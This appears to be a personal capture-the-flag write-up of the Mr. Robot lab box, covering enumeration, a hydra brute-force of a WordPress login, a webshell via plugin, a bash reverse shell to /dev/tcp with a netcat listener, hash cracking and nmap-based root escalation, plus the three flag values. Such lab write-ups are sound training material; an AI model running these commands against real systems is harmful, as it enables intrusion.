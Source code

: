 ```yaml
---
title: Vulnhub/TryHackMe Mr. Robot
date: 2022-06-24 12:00:00 -0700
categories: [ctf,tryhackme]
tags: [thm,hacking,cybersecurity,ctf,writeup] # TAG names should always be lowercase
---
```


# Mr. Robot - vulnhub
---

## Flag 1
---
As always I start with nmap and gobuster.
```bash
nmap -sC -sV -oN nmap/initial $IP

gobuster dir -u http://$IP -w wordlist.txt -x .cgi,.txt,.php,.html,.py,.sh,.jpg,.png -t 200
```
by enumerating the website and going to 
```html
http://<box ip>/robot.
```
it shows that their is a file 
called 'key-1-of-3.txt'. if you browse to it
you will be given the first flag

073403c8a58a1f80d943455fb30724b9


## Flag 2
---
This one was complicated for me.
So after finding the first flag in /robots their was also a file called fsocity.dic. 
I pulled that file with curl and then sorted it out with sort and filtered it down using uniq to bring down the amount of repeats in the dictionary.
```bash
curl -o fsocity.dic http://$IP/fsocity.dic
```
```bash
sort fsocity.dic | uniq
```
You can also just do 
```bash
sort -u fsocity.dic
```
I then went to the /wp-login found when enumerating and used hydra to enumerate the logon process with the username being elliot.
```bash
hydra -l elliot -P wordlist.txt $IP
```
I found the username by guesswork but could be found with hydra as well using the fsocity.dic that we sorted out. 

After finding the password for the account elliot, we see that it is an admin account. Ngl I was stumped for a minute trying to find out how to exploit wordpress. 
I went down multiple rabbit holes like : 
exploiting xmlrpc.php, or trying LFI's and other related CVE's. 
I then conceited and peeked at a writeup and saw a few different ways people progressed. 
Trying to get a hold of a shell was a pain. Some of the methods just did not work. I tried adding a php reverse shell via templates. both making my own and editing the 404 template didn't work. then I ultimately found out I can use a plugin to access a webshell (which I now learned is very tedious to use. might make a tool to interface with it:) 
After gaining access through the plugin and navigating to it. I learned I can move throughout directories and that i can execute commands.
I used a bash reverse shell and caught it with netcat. 
```bash
bash -i >& /dev/tcp/10.10.10.10/8080 0>&1
nc -lnvvp 8080
```
I then searched for different files and saw the flag. however I could not read it. I would need to be a different user to access it. 
In the same directory as the flag was a password that was an md5 hash of the password of a user robot. 
I cracked the hash using john the ripper and tried to log in as the robot user, however I needed to be in an actual terminal so I stabilized the shell with python
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
and logged in as robot. then I read the flag file.

822c73956184f694993bede3eb39f959


## Flag 3
---
Now that we have access to the system lets try and escalate to root.

To do so lets enumerate the system. 
Now i did this by hand butIi also could have imported linpeas or linenum to do this for me. I tried: 
```bash
sudo -l
ps aux
find / -perm 4000 -exec root
```
nothing, I then started researching and noticed others add a "w" to the ps aux I did before.
So I tried it and saw a few processes running and noticed nmap. I then went to gtfobins and tried --interactive and !su. IM ROOT!!! Now I navigated to /root and saw the 3rd flag. cat it out and bam. 

04787ddef27c3dee1ee161b21670b4e4


and so concludes the mr robot ctf from vulnhub! I had done this before I knew it was also ported to TryHackMe and it was the same for their too




